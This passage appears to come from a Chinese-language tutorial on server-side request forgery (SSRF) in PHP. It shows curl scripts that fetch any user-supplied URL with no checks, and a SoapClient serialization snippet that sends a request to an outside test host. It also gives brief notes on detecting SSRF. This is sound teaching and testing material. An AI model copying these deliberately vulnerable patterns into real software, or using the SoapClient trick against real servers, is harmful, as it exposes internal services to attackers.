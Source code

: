 ```php
<?php 
if (isset($_GET['url'])){
	$link = $_GET['url'];
	$curlobj = curl_init(); // 创建新的 cURL 资源
	curl_setopt($curlobj, CURLOPT_POST, 0);
	curl_setopt($curlobj,CURLOPT_URL,$link);
	curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1); // 设置 URL 和相应的选项
	$result=curl_exec($curlobj); // 抓取 URL 并把它传递给浏览器
	curl_close($curlobj); // 关闭 cURL 资源，并且释放系统资源
 
	// $filename = './curled/'.rand().'.txt';
	// file_put_contents($filename, $result); 
	echo $result;
}
?>
```

如果函数在调用期间，攻击者可任意控制传递进来的参数，则会造成危害



`SoapClient()`

**SoapClient()** 类为SOAP 1.1，SOAP 1.2服务器提供客户端。它可以在 WSDL 或非 WSDL 模式下使用。

参考：https://www.php.net/manual/en/class.soapclient.php

```php
// ssrf.php
<?php
$a = new SoapClient(null,array('uri'=>'http://47.xxx.xxx.72:2333', 'location'=>'http://47.xxx.xxx.72:2333/aaa'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

## 6.SSRF漏洞的验证：

1）因为SSRF漏洞是让服务器发送请求的安全漏洞，所以我们就可以通过抓包分析发送的请求是否是由服务器的发送的，从而来判断是否存在SSRF漏洞。
2）在页面源码中查找访问的资源地址 ，如果该资源地址类型为 www.baidu.com/xxx.php?image=（地址）的就可能存在SSRF漏洞

## 7. ssrf漏洞利用

ssrf测试代码：

```
<?php
function curl($url){
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, $url);
      curl_setopt($ch, CURLOPT_HEADER, 0);
      curl_exec($ch);
      curl_close($ch);
}
$url = $_GET['url'];
curl($url);
?>
```

